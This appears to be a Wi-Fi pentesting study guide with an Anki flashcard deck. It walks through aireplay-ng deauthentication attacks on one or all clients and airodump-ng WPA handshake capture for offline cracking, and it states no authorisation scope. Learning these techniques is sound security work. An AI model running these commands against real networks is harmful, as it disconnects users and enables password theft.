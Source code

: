 # Chain #4: Generating Traffic & Deauthentication

This chain explains how to use **Aireplay-ng** to generate traffic and perform deauthentication attacks. Aireplay-ng is essential when we need to:
- Capture WPA/WPA2 4-way handshakes by forcing clients to reconnect.
- Test whether our wireless card supports **packet injection**.
- Simulate client traffic on the target network.

---

## Step 1: Prepare the Wireless Interface

Before using Aireplay-ng, ensure the wireless interface is in **monitor mode** and tuned to the correct channel.

```bash
sudo airmon-ng start wlan0 6
```

- `wlan0` → your wireless interface.
- `6` → the target channel (replace with the real channel).
- The interface will usually be renamed to `wlan0mon`.

**If you're already in monitor mode, retune quickly before deauth/capture:**
```
sudo iw dev wlan0mon set channel <CHANNEL>
```
- Prevents the classic “waiting for beacon on the wrong channel” issue before you deauth or capture handshakes.

**Verify monitor mode:**

```bash
iwconfig
```

Look for `Mode:Monitor` in the output.

---

## Step 2: Test for Packet Injection

Before attacking, confirm your card can inject packets:

```bash
sudo aireplay-ng --test wlan0mon
```

- Aireplay-ng sends test probe requests.
- If you see **"Injection is working!"**, your card supports packet injection.

---

## Step 3: Scan for Access Points and Clients

Use Airodump-ng to identify APs and clients:

```bash
sudo airodump-ng wlan0mon
```

- `BSSID` → MAC address of the AP.
- `CH` → Channel.
- `ESSID` → Network name.
- `STATION` → Clients connected to the AP.

Take note of:
- The **AP BSSID** (target).
- The **client MAC** (optional — for targeted deauth).

---

## Step 4: Perform Deauthentication Attack

### Option A: Target a Specific Client

```bash
sudo aireplay-ng -0 5 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon
```

- `-0` → deauthentication attack.
- `5` → number of deauth packets to send (`0` = infinite).
- `-a <AP_BSSID>` → target AP MAC address.
- `-c <CLIENT_MAC>` → target client MAC address.
- `wlan0mon` → monitor interface.

This disconnects the specified client, forcing it to reconnect (useful for capturing WPA/WPA2 handshakes).

### Option B: Deauthenticate All Clients

```bash
sudo aireplay-ng -0 10 -a <AP_BSSID> wlan0mon
```

- This disconnects **all clients** connected to the AP.

---

## Step 5: Capture the Handshake

While sending deauth packets, run Airodump-ng to capture the WPA handshake:

```bash
sudo airodump-ng -c <CHANNEL> --bssid <AP_BSSID> -w capture wlan0mon
```

- `-c <CHANNEL>` → lock to the AP’s channel.
- `--bssid <AP_BSSID>` → target AP.
- `-w capture` → write to `capture.cap` file.

Watch for `WPA handshake: <AP_BSSID>` in the top-right corner of Airodump-ng.

---

## Step 6: Notes on Effectiveness

- **Protected Management Frames (PMF)** in WPA3 prevent deauth attacks.
- On WPA2, this is still highly effective.
- If clients reconnect automatically, you’ll capture the handshake quickly.
- If no clients are connected, you may need to **wait** or use another attack (e.g., Evil Twin).

---

## Anki Deck:

```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6

G1x7tF9dL3	Basic (type in the answer)	Ops::WiFi Gym::Chain 4: Generating Traffic & Deauthentication	What Aireplay-ng command tests if your Wi-Fi card supports packet injection?	<code>sudo aireplay-ng --test &lt;interface&gt;</code>	wifi
H4p2cJ8mT6	Basic (type in the answer)	Ops::WiFi Gym::Chain 4: Generating Traffic & Deauthentication	What Aireplay-ng command deauthenticates a specific client from an AP?	<code>sudo aireplay-ng -0 &lt;count&gt; -a &lt;AP_BSSID&gt; -c &lt;CLIENT_MAC&gt; &lt;interface&gt;</code>	wifi
I5m9vK6qR1	Basic (type in the answer)	Ops::WiFi Gym::Chain 4: Generating Traffic & Deauthentication	What Aireplay-ng command deauthenticates all clients from an AP?	<code>sudo aireplay-ng -0 &lt;count&gt; -a &lt;AP_BSSID&gt; &lt;interface&gt;</code>	wifi
J2s8xH4nL7	Basic (type in the answer)	Ops::WiFi Gym::Chain 4: Generating Traffic & Deauthentication	What Airodump-ng command captures packets on a specific AP and channel, saving output to a file?	<code>sudo airodump-ng -c &lt;CHANNEL&gt; --bssid &lt;AP_BSSID&gt; -w &lt;filename&gt; &lt;interface&gt;</code>	wifi
K0z3bD7pV8	Basic (type in the answer)	Ops::WiFi Gym::Chain 4: Generating Traffic & Deauthentication	What command puts a Wi-Fi card into monitor mode on a specific channel using Airmon-ng?	<code>sudo airmon-ng start &lt;interface&gt; &lt;channel&gt;</code>	wifi

L2e6nF7tL1	Basic	Ops::WiFi Gym::Chain 4: Generating Traffic & Deauthentication	What is a deauthentication attack in Wi-Fi pentesting?	An attack that forces clients to disconnect from an AP by sending spoofed deauth frames, often used to capture WPA handshakes.	wifi
M5m0xJ8rQ2	Basic	Ops::WiFi Gym::Chain 4: Generating Traffic & Deauthentication	What does packet injection mean in Wi-Fi security testing?	The ability of a Wi-Fi card to craft and transmit custom frames into a wireless network.	wifi
N3t4bH9qP7	Basic	Ops::WiFi Gym::Chain 4: Generating Traffic & Deauthentication	What is a WPA handshake and why is it important?	A 4-packet exchange between a client and AP when connecting to a WPA/WPA2 network. Capturing it allows offline password cracking.	wifi
O1p9dK6mR5	Basic	Ops::WiFi Gym::Chain 4: Generating Traffic & Deauthentication	Why are deauthentication attacks ineffective against WPA3?	Because WPA3 uses Protected Management Frames (PMF), which authenticate and protect management frames like deauth packets.	wifi
P8q7fM2nL6	Basic	Ops::WiFi Gym::Chain 4: Generating Traffic & Deauthentication	What is the purpose of the <code>-0</code> option in Aireplay-ng?	It initiates a deauthentication attack.	wifi
mQ6eV9tLrB Basic (type in the answer) Ops::WiFi Gym::Chain 4: Generating Traffic & Deauthentication Which command quickly retunes a monitor interface to channel 1 before a deauth? <code>sudo iw dev wlan0mon set channel 1</code> wifi
```